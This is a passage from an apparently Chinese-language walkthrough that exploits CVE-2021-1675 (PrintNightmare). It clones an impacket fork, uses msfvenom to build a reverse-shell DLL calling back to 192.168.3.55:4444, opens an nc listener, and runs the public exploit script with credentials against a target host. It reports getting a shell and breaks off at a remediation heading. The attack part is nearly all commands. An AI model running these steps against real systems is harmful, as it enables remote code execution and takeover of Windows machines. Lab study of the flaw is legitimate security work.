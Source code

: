    
    
    git clone https://github.com/cube0x0/impacketcd impacketpython3 ./setup.py install

###  

### 2、Kali生成恶意dll文件  

  * 

    
    
    msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.3.55 LPORT=4444 -f dll -o /usr/share2/shell.dll

  

### 3、msf或者nc开启监听

  *   * 

    
    
    msf 和 nc开启监听都可以 nc -lnvp 4444

  

![](https://gitee.com/fuli009/images/raw/master/public/20210805105254.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20210805105256.png)

  

### 4、执行exp  

  *   * 

    
    
    exp地址：https://github.com/cube0x0/CVE-2021-1675python3 CVE-2021-1675.py test.com/win10:"windows10>?"@192.168.3.3 '\\192.168.3.55\smb\shell.dll'

  
虽然报错了 但是已经收到了shell

  

![](https://gitee.com/fuli009/images/raw/master/public/20210805105258.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20210805105300.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20210805105301.png)  
  
 **0x06 修复建议  
  
**  
  
  

1.官方建议：
